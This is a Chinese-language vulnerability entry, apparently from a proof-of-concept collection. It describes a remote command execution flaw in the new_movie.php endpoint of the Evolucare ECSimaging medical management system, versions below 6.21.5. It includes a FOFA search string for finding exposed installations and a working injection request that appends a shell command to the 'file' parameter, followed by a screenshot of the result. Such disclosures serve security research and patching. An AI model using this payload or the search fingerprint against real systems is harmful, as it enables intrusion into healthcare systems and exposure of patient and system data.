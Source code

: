 # Evolucare Ecsimaging new_movie.php 远程命令执行漏洞

## 漏洞描述

EVOLUCARE ECSimage是一款国外使用的医疗管理系统，研究发现其new_movie.php接口中存在命令注入漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

<a-checkbox checked>EVOLUCARE Evolucare Ecsimaging 版本< 6.21.5</a-checkbox></br>

## FOFA

<a-checkbox checked>body="ECSimaging"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1645546475187-0a083488-f138-4905-97d4-d59cffe9d11c.png)

验证POC

```javascript
/new_movie.php?studyUID=1&start=2&end=2&file=1;pwd
```

![img](../../../.vuepress/public/img/1645546842924-a13f0f5d-da65-4933-b804-70f9a8ad1037.png)